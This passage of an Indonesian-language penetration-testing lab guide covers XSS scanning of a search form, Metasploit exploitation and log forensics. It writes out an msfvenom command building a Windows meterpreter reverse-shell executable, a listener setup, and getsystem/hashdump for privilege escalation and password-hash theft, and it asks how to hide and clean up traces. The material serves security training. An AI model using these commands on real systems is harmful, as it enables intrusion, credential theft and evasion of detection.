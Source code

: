 3. Uji kerentanan XSS pada form pencarian:
   ```bash
   python3 xsstrike.py -u "http://[TARGET_IP]/search?q="
   ```

### Pertanyaan
1. Kerentanan apa saja yang ditemukan?
2. Bagaimana cara memvalidasi temuan kerentanan?
3. Apa rekomendasi perbaikan untuk setiap kerentanan?

## ⚔️ Latihan 3: Eksploitasi dan Post-Exploitation

### Tujuan
Memanfaatkan kerentanan dan mempertahankan akses

### Langkah Kerja
1. Gunakan Metasploit untuk eksploitasi:
   ```bash
   msfconsole
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST [YOUR_IP]
   set LPORT 4444
   exploit
   ```

2. Buat payload dengan msfvenom:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -f exe > shell.exe
   ```

3. Lakukan privilege escalation:
   ```bash
   getsystem
   hashdump
   ```

### Pertanyaan
1. Bagaimana cara meminimalkan jejak saat melakukan eksploitasi?
2. Apa yang harus dilakukan setelah mendapatkan akses awal?
3. Bagaimana cara membersihkan jejak setelah selesai?

## 📊 Latihan 4: Analisis Log dan Forensik

### Tujuan
Menganalisis log untuk mengidentifikasi aktivitas mencurigakan

### Langkah Kerja
1. Analisis log akses web:
   ```bash
   cat /var/log/apache2/access.log | grep -i "select.*from"
   ```
